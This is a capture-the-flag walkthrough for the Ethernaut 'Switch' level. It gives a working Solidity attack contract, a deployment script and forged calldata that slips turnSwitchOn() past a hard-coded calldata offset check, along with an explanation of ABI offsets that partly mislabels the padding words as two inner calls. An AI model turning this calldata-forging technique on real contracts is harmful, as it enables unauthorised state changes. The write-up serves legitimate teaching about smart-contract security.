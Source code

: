 # Ethernaut Level 29 Switch

---

Contracts:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Switch {
    bool public switchOn; // switch is off
    bytes4 public offSelector = bytes4(keccak256("turnSwitchOff()"));

    modifier onlyThis() {
        require(msg.sender == address(this), "Only the contract can call this");
        _;
    }

    modifier onlyOff() {
        // we use a complex data type to put in memory
        bytes32[1] memory selector;
        // check that the calldata at position 68 (location of _data)
        assembly {
            calldatacopy(selector, 68, 4) // grab function selector from calldata
        }
        require(selector[0] == offSelector, "Can only call the turnOffSwitch function");
        _;
    }

    function flipSwitch(bytes memory _data) public onlyOff {
        (bool success,) = address(this).call(_data);
        require(success, "call failed :(");
    }

    function turnSwitchOn() public onlyThis {
        switchOn = true;
    }

    function turnSwitchOff() public onlyThis {
        switchOn = false;
    }
}
```

We have to turn the switch on to pass the game. It seems impossible since `turnSwitchOn()` can only be called from this very contract and `flipSwitch(bytes memory _data)` can only be called when the input calldata has `turnSwitchOff()` selector. However, we can forge a calldata so that we can trick through `onlyOff` modifier and still call `turnSwitchOn()` under the hood. 

`SwitchAttack.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Switch} from "./Switch.sol";

contract SwitchAttack {
    bytes4 public offSelector = bytes4(keccak256("turnSwitchOff()"));
    bytes4 public onSelector = bytes4(keccak256("turnSwitchOn()"));
    bytes4 public flipSelector = bytes4(keccak256("flipSwitch(bytes)"));
    address switchTarget;

    constructor(address switchAddress) {
        switchTarget = switchAddress;
    }

    function attack() public {
        bytes memory inner = abi.encode(
            uint256(0x60),      // offset to data (96 = 0x60)
            uint256(4),         // length of first call data
            offSelector,       // selector for turnSwitchOff()
            uint256(4),         // length of second call data
            onSelector               // selector for turnSwitchOn()
        );

        bytes memory fullCalldata = abi.encodePacked(
            flipSelector,                 // 4 bytes selector
            inner                        // inner
        );

        (bool success, ) = switchTarget.call(fullCalldata);
        require(success, "Attack failed");
    }
}
```

We can see how to create a calldata like this in the `attack()` function. We can visualize `fullCalldata` :

```
0x30c13ade
0000000000000000000000000000000000000000000000000000000000000060
0000000000000000000000000000000000000000000000000000000000000004
20606e1500000000000000000000000000000000000000000000000000000000
0000000000000000000000000000000000000000000000000000000000000004
76227e1200000000000000000000000000000000000000000000000000000000
```

| **Offset (bytes)** | **Length (bytes)** | **Content (hex)** | **Meaning**                                                  |
| ------------------ | ------------------ | ----------------- | ------------------------------------------------------------ |
| 0‒3                | 4                  | 30c13ade          | Function selector for flipSwitch(bytes)                      |
| 4‒35               | 32                 | 000…00060         | Head word: offset to the start of _data tail (0x60 = 96 decimal) |
| 36‒67              | 32                 | 000…00004         | Length (4 bytes) of first inner call data (for turnSwitchOff()) |
| 68‒99              | 32                 | 20606e15 000…0000 | First inner call data: selector of turnSwitchOff() (4 bytes) + padding to 32 bytes |
| 100‒131            | 32                 | 000…00004         | Length (4 bytes) of second inner call data (for turnSwitchOn()) |
| 132‒163            | 32                 | 76227e12 000…0000 | Second inner call data: selector of turnSwitchOn() (4 bytes) + padding to 32 bytes |

According to the ABI Specification for Solidity:

- When a function argument is a dynamic type (e.g., bytes memory, string memory, T[]), the head word encodes a **32-byte word representing the offset (in bytes)** from the start of the arguments block to where that argument’s **tail** (actual data) begins. 
- The tail then begins with a 32-byte word for the *length* of the data, followed by the data itself (padded to a multiple of 32 bytes). 
- The offset enables decoders to skip dynamic length segments and locate the data for each argument correctly, especially when multiple dynamic arguments or nested structures are involved.

Why 0x60?

1. First 4 bytes: function selector for flipSwitch(bytes).
2. Then the head section for the arguments: because there is one argument (_data, dynamic), the head section has just **one** 32-byte word: the offset to where the tail begins.
   - If the tail begins immediately after the head (no extra padding/dummy words), the offset value is 0x20 (32) because the head section is 32 bytes long and starts right after the selector. So the tail would begin at byte (4 + 32) = *36 decimal* (0x24 hex).
   - However, if you **insert extra dummy words / padding** so that you align a specific sub-element at a particular byte offset (e.g., you want the first inner selector to appear at byte offset 68 decimal), then you increase the offset accordingly.
     - Example: you insert one extra 32-byte dummy word before the tail → head size becomes 64 bytes → offset becomes 0x40 (64) → tail begins at byte 4 + 64 = byte 68 decimal.
     - If you insert **two** dummy 32-byte words, head size becomes 96 bytes → offset = 0x60 (96) → tail begins at byte 4 + 96 = byte 100 decimal.
3. Then at the tail: length word for _data, then the actual data (which in the exploit is structured as two sub-calls: first length + selector for turnSwitchOff(), then length + selector for turnSwitchOn()), all padded to 32 bytes.

So, it is dangerous to hard code like this: `calldatacopy(selector, 68, 4)` for dynamic data type.

`Switch.s.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {SwitchAttack} from "../src/SwitchAttack.sol";

contract SwitchScript is Script {
    address switchAddress = 0xXXXXXXXXXXXX;

    function run() external {
        vm.startBroadcast();

        SwitchAttack attackContract = new SwitchAttack(switchAddress);
        attackContract.attack();

        vm.stopBroadcast();
    }
}
```


